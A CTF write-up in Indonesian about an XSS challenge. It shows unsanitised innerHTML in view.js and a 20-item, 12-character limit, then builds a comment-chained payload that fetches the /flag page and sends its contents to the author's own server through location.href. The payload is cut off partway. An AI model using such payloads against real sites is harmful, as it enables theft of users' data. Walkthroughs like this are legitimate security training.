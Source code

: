 ```javascript
}
```

Dari `view.js` kita dapat melihat hal yang menarik yaitu pada penggunaan `.innerHTML` yang tidak di sanitize terlebih dahulu sehingga ini bisa mengakibatkan serangan XSS.

```javascript
...snip...
                list.innerHTML = json.map((x, i) => `<li><input type="checkbox" id="item${i}"><label for="item${i}">${x}</label></li>`).join("");
...snip...
```

Tapi XSS ini tidak akan mudah karena kita diberi limit 12 huruf per-baris.

![](https://i.imgur.com/zDc1DAt.png)

Pada source code `index.js` kita juga bisa melihat bahwa ada restriksi lagi yaitu kita tidak dapat mengirim payload lebih dari 20 lines.

```javascript
...snip...
    if (parsed.length > 20) {v
        res.status(400).send("list must have at most 20 items");
        return;
    }
    if (parsed.some((x) => x.length > 12)) {
        res.status(400).send("list items must not exceed 12 characters");
        return;
    }
...snip...
```

Ketika kita mengirimkan payload berikut:

```
<script>
alert(1)
<script>
```

payload kita yang kita kirim akan berubah menjadi seperti gambar dibawah ini, sehingga kita tida dapat melakukan XSS degna benar.

![](https://i.imgur.com/TZ0Ml5A.png)


#### Exploit

Untuk ekploitasi soal ini kita bisa memakai comment syntax seperti berikut pada js `/*blablabla*/` sehingga nantinya tag seperti gambar diatas akan dianggap sebuah comment. 

Berikut payload akhir yang saya gunakan untuk mendaptkan XSS dan melakukan CSRF untuk mendapatkan flag yang berada di page `/flag` dan mengirimnya ke server kami.

```
<img src='
'onerror='/*
*/fetch(/*
*/"/flag")/*
*/.then(/*
*/(a)=>a./*
*/text()/*
*/.then(/*
*/(a)=>/*
*/location/*
*/.href=/*
*/"htt"+/*
*/"p:"+/*
```